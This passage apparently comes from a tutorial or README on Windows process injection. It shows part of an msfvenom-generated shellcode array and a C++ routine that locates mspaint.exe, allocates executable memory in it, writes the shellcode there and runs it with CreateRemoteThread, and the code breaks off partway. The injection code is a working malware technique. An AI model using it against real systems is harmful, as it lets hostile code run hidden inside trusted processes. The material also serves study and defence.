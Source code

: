 ```c++
        "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
        "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
        "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
        "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
        "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
        "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
        "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
        "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
        "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\xfe\x00\x00\x00\x3e"
        "\x4c\x8d\x85\x14\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
        "\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff"
        "\xd5\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x20\x62\x79\x20"
        "\x6d\x73\x66\x76\x65\x6e\x6f\x6d\x00\x53\x68\x65\x6c\x6c"
        "\x63\x6f\x64\x65\x00";
```

# 1. Get a Handle of a MS Paint application process

To get a handle of the MS Paint process first we have to get the sanpshot of all the running process for that we first intiliaze the 
"PROCESSENTRY32 pe32" API which stores all the processes in the struct provided by Windows.h API and then we set the size member to the whole size of the struct, then we create the handle to take the snapshot of all the running process. to start checking for each process we have to check for the first process from the snapshot by using "Process32First(snapshot, &pe32)" API function which takes our snapshot and the pointer to pe32 struct and then perform the do while loop by using "Process32Next(snapshot, &pe32)" API function to check for the MS Paint process.

```c++
// Init PROCESSENTRY32 struct
    PROCESSENTRY32 pe32;
    // Set the size member to the whole size of the struct
    pe32.dwSize = sizeof(PROCESSENTRY32);
    // Take a snapshot of all running processes
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    // Get the first process info in the snapshot
    Process32First(snapshot, &pe32);
    // Loop through the whole snapshot until `mspaint.exe` is found
    do {
        // Check if we have a match for `mspaint.exe`
        if (wcscmp(pe32.szExeFile, L"mspaint.exe") == 0) {
            // Obtain a handle to `mspaint.exe`
            HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
            // Allocate memory in `mspaint.exe`
            LPVOID allocated_mem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

            if (allocated_mem == NULL) {

                printf("Memory allocation failed: %ul\n", GetLastError());

                return 1;
            }

            printf("Memory page allocated at: 0x%p\n", allocated_mem);
            // Write shellcode to the allocated memory in `mspaint.exe`
            WriteProcessMemory(hProcess, allocated_mem, shellcode, sizeof(shellcode), NULL);
            // Create a thread to execute shellcode
            HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)allocated_mem, NULL, 0, NULL);

            if (hThread == NULL) {

                printf("Falied to obtain handle to process: %ul\n", GetLastError());
```